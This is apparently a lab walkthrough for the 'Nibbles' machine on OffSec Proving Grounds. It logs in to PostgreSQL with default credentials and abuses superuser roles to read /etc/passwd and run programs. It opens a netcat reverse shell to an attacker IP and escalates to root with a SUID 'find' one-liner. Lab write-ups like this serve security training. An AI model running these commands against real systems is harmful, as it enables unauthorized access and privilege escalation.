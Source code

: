 # Nibbles

## Intro

Nibbles is a 'get to work' intermediate linux machine from offsec proving grounds.  

## Enum

### Nmap

All tcp ports.  

```
21/tcp   open   ftp          syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open   ssh          syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open   http         syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
139/tcp  closed netbios-ssn  reset ttl 61
445/tcp  closed microsoft-ds reset ttl 61
5437/tcp open   postgresql   syn-ack ttl 61 PostgreSQL DB 11.3 - 11.9
```

## postgresql

Login details for default user.  

`psql -U postgres -h 192.168.184.47 -p 5437 --password postgres`


As postgres user is superadmin, the following roles can be granted to access the file system.

```
GRANT pg_read_server_files TO "postgres";

GRANT pg_write_server_files TO "postgres";

GRANT pg_execute_server_program TO "postgres";
```

Reading files from the file system.  

```
CREATE TABLE demo(t text);

COPY demo FROM '/etc/passwd';

SELECT * FROM demo;
```

The following users have a login shell.  

```
root:x:0:0:root:/root:/bin/bash
wilson:x:1000:1000:wilson,,,:/home/wilson:/bin/bash
postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```

List directories, first change to postgres database.  

```
\c postgres

SELECT * FROM pg_ls_dir('/var/www/html');
```

Execute a program.  

```
copy (select '') into program 'curl http://<ip>';
```


## User shell

Netcat is located in the /bin drive of the machine.

Set up a listener.  

```
nc -lvnp 80
```

Return a shell back.  

```
copy (select '') to program '/bin/nc -e /bin/bash 192.168.45.194 80';
```

## Root

The find command has SUID.  

```
/usr/bin/find . -exec /bin/sh -p \; -quit
```
